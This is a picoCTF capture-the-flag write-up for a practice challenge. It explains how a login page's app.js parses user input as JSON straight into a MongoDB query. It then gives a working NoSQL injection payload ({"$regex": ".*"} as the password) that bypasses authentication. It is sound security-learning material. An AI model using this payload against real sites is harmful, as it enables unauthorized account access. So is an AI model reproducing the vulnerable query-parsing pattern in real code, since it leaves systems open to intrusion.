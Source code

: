 # No Sql Injection
Description: Can you try to get access to this website to get the flag?

1. **Initial Reconnaissance:**
After going through the website, it's just a simple login page. So, I started inspecting the source code.
    - `index.html`: From this file, I found that we can just simple path traversal to admin page but it contains no flag.
    - `admin.html`: This pafe contains just some text.
    - `app.js`: From this file, I found that flag is stored in session token, so we must have to find a way to login to access the token.
    and we know that the initial user  is
    ``` javascript
        const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
        });
    ``` 

2. **Identifying Vulnerabilities:**
From the `app.js` file, I found that it's vulnerable to NoSQL injection due to its login approach
```javascript
    const user = await User.findOne({
        email:
        email.startsWith("{") && email.endsWith("}")
            ? JSON.parse(email)
            : email,
        password:
        password.startsWith("{") && password.endsWith("}")
            ? JSON.parse(password)
            : password,
    });
```
If we input a JSON-like string, it will parse it and treat it as an query object. So, we can bypass the password by using
`{"$regex": ".*"}` as password.


3. **Exploitation:**
After login with credentials
```javascript
    email: "picoplayer355@picoctf.org",
    password: {"$regex": ".*"}
```
I was able to access the admin page. Then check session storage and found the flag in the session token in base64 format.
![alt text](image.png)

4. **Flag Retrieval:**
Decode it in cyberchef and you will get the flag.
![alt text](image-1.png)
